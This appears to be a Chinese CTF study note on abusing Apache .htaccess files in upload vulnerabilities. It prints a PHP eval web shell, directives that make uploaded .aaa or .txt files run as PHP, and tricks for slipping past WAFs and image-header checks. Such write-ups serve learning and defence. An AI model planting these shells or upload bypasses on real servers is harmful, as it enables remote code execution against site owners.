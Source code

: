 这两天做羊城杯的一道题遇到了需要利用`.htaccess`文件，于是就来学习一下`.htaccess`文件的一个用法

`.htaccess`文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

启用`.htaccess`，需要修改httpd.conf，启用AllowOverride，并可以用AllowOverride限制特定命令的使用。

在CTF当中，我们经常会在文件上传漏洞当中使用到`.htaccess`文件

### 任意文件解析

#### AddType

例如

我上传的是一个aaa后缀的文件

```php
<script language="php">@eval($_POST['cmd']);</script>
```

然后可以利用`.htaccess`对aaa文件进行解析

```
AddType application/x-httpd-php .aaa
```

这样就可以执行恶意指令了

![image-20210415131947887](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210415131947887.png)

#### AddHandler

```
AddHandler php5-script .txt
```

```
AddHandler php7-script .txt
```

这个可以将txt文件当成php文件来解析

#### SetHandler

```
SetHandler application/x-httpd-php
```

这样写可以将所有文件都当成php文件来执行

### .htaccess的绕过

- `\`换行绕过脏字符或绕WAF

- 利用XMP图片解析头(`#`刚好是注释符)

  ```
  #define 4c11f3876d494218ff327e3ca6ac824f_width xxx(大小)
  #define 4c11f3876d494218ff327e3ca6ac824f_height xxx(大小)
  ```
